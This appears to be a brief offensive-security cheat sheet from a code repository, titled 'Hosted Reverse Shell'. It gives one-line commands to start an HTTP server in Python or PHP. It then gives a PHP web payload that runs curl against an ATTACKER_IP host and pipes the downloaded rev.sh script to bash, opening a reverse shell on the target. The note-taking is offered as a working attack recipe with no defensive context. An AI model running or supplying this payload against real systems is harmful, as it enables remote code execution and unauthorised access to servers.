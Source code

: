 # Hosted Reverse Shell

## 1st step is always setting up an HTTP server

### 1) Python

    python3 -m http.server PORT

### 2) PHP

    php -S 0.0.0.0

## 2nd step is creating a payload, then hosting it on your HTTP server

## 3rd step is calling your hosted payload to run it

### 1) PHP

    <?php system("curl ATTACKER_IP:PORT/rev.sh|bash"); ?>

